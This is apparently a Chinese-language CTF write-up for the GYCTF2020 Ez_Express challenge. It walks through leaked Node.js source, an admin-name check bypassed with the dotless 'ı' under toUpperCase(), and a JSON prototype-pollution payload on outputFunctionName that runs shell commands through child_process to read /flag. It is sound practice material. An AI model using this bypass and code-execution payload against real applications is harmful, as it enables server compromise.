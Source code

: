```yaml
---
title: '[GYCTF2020]Ez_Express'
date: 2024-08-11 22:16:39
tags:
     - 题解
     - 原型链污染
categories: 刷题笔记
---
```


## [GYCTF2020]Ez_Express(原型链污染)

我们先扫描目录，发现了www.zip源码泄露

![](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112227728.png)

我们下载源码

```
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
```

`/route/index.js`中用了`merge()`和`clone()`，必是原型链了

往下找到`clone()`的位置

```
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

需要admin账号才能用到clone()

我们去到/login处

```
router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
```

可以看到验证了注册的用户名不能为admin（大小写），不过有个地方可以注意到

```
'user':req.body.userid.toUpperCase(),
```

这里将user给转为大写了，这种转编码的通常都很容易出问题

参考p牛的文章

> Fuzz中的javascript大小写特性
>
> https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

注册`admın`（此admın非彼admin，仔细看i部分）

> 特殊字符绕过
>
> ##### toUpperCase()
>
> 其中混入了两个奇特的字符"ı"、"ſ"。
>
>  这两个字符的“大写”是I和S。也就是说"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'。通过这个小特性可以绕过一些限制。
>
> ##### toLowerCase()
>
> 这个"K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'.

有一个输入框 你最喜欢的语言，还有提示`flag in /flag`

登录为admin后，就来到了原型链污染的部分

找污染的参数

```
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

可以看到在`/info`下，使用将`outputFunctionName`渲染入`index`中，而`outputFunctionName`是未定义的



```ini
res.outputFunctionName=undefined;
```

也就是可以通过污染`outputFunctionName`进行SSTI

于是抓`/action`的包，`Content-Type`设为`application/json`

payload

```json
{"lua":"a","__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}
```

![image-20240811230441206](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112304276.png)

我们访问/info，得到flag
